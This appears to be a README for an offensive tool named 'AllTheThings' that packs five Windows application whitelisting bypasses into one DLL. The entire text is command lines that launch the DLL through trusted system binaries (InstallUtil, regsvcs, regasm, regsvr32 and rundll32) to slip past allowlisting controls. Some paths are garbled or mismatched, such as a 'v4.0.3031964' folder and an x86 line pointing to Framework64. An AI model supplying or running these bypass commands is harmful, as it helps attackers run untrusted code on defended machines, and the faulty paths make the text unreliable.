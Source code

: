 # AllTheThings

###Includes 5 Known Application Whitelisting Bypass Techniques in One File.

###1. InstallUtil.exe

###2. Regasm.exe

###3. Regsvcs.exe

###4. regsvr32.exe

###5. rundll32.exe



#Usage:
##1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

    x64 - C:\Windows\Microsoft.NET\Framework\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
##2. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll
##3. 

    x86 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

##4. 

    regsvr32 /s  /u AllTheThings.dll -->Calls DllUnregisterServer

    regsvr32 /s AllTheThings.dll --> Calls DllRegisterServer
    
##5. 

    rundll32 AllTheThings.dll,EntryPoint
